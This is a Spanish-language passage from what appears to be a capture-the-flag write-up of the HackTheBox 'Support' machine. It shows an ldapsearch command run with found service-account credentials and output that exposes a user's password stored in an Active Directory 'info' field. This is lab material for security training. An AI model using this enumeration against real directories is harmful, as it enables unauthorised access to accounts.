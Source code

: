 ### ldapsearch

Seguiermos enumerando el servicio de `ldap` con las credenciales que encontramos, para ello podemos ayudarnos de [Hacktricks - ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#ldapsearch) con el cual podemos enumerar ciertos usuarios e información sensible 

```php
❯ ldapsearch -x -H ldap://support.htb -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'CN=Users,dc=support,dc=htb'
```

Ejecutando lo anterior podremos visualizar lo siguiente:

![20240305000914.png](20240305000914.png)

En el apartado de `Info` podremos encontrar algo que parece ser una contraseña  que pertenece al usuario `support`

```php
.
.
.
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
.
.
.
```
